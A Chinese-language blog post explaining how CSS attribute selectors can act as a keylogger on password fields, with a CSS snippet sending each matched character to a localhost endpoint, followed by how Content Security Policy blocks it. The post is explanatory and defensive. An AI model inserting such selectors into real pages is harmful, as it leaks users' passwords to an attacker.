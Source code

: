 ```yaml
---
title: 使用css selector 记录用户输入信息
date: 2019-11-13 14:09:22
tags: [web security, web fronted]
---
```


## CSS3 Selector
  实现使用 CSS 记录用户信息主要使用了 CSS3 中的 selector。

| 序号 | 选择器 | 含义 |
| :-----| :---- | :---- |
| 1 | E[attr^="val"] | 属性 attr 的值以 "val" 开头的元素 |
| 2 | E[att$="val"] | 属性 attr 的值以 "val" 结尾的元素 |
| 3 | E[att*="val"] | 属性 attr 的值以 "val" 字符串的元素 |

## 键位匹配

浏览器自身默认不会将用户输入的值同步到 value 中, 但像一些框架会将用户输入值同步到 value 中。[Demo Link](https://codepen.io/epson-lee/pen/vYYzaNb?editors=0010)

![demo.gif](css-keylogger.gif)

将值同步到 value 之后，我们可以使用 css 来做匹配，对应的键位发送到不同的链接。

```css
/* 命中 0 时 请求对应的接口 */
input[type="password"][value$="0"] {
  background-image: url("http://localhost:3000/0"); 
}
/* 命中 1 时 请求对应的接口 */
input[type="password"][value$="1"] {
  background-image: url("http://localhost:3000/1"); 
}
```

## 防御措施

在知道可以使用 css 来记录按键之后我兴冲冲的找到对应的 github demo，按照文档所说打开 [https://instagram.com](https://instagram.com)，安装 Chrome Extension、输入密码但却然而却发现并没有记录到信息，出现了如下的错误信息：

![Error Info](css-keylogger-error.png)

在 [antd-design-pro 示例登录页](https://preview.pro.ant.design/user/login?redirect=https%3A%2F%2Fpreview.pro.ant.design%2Fdashboard%2Fanalysis) 倒是可以。

![Error Info](css-keylogger-antdpro.gif)

这是因为 [https://instagram.com](https://instagram.com) 使用了 CSP (Content Security Policy)。 说白了就是为了页面安全而制定的一系列防护措施，通过CSP所约束的规则制定可信的内容来源（脚本、图片、iframe、fton、style 等可能的远程资源）。

## 引用

[CSS Keylogger](https://github.com/maxchehab/CSS-Keylogging)
[Content Security Policy (CSP) 是什么？为什么它能抵御 XSS 攻击](https://www.zhihu.com/question/21979782)